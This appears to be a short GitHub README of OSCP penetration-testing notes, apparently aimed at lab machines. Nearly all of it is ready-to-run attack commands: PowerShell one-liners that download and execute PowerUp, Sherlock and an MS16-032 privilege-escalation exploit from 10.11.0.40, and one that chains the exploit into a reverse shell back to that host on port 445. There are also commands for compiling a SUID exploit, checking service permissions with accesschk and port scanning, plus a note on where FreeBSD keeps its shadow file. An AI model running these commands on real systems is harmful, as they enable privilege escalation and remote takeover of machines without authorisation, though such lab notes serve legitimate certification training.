 # for-oscp
some notes ,scripts
# 本地编译exp 如果目标机器没有gcc
gcc -m32 -Wl,--hash-style=both -o suid suid.c
# accesschk.exe usage

accesschk.exe -uwcqv "Users" * /accepteula
accesschk.exe -ucqv [service_name] 
# windows powershell priv sc 
# powerup for basic check
powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/PowerUp.ps1'); Invoke-AllChecks
# sherlock for kernel check
powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/Sherlock.ps1') ; Find-AllVulns
# ms16-032
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/ms16_032_intrd_mod.ps1');Invoke-MS16-032 \
"-NoProfile -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.0.40 -Port 445\" "

# export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin"

# freebsd shadow file is /etc/spwd.db

# WINDOWS/setupapi.log /usr/share/seclists/Fuzzing/Windows-Attacks.fuzzdb.txt  some windows local files

# unicorn scan
unicornscan -i tap0 -Ir 160 10.11.1.22:1-4000
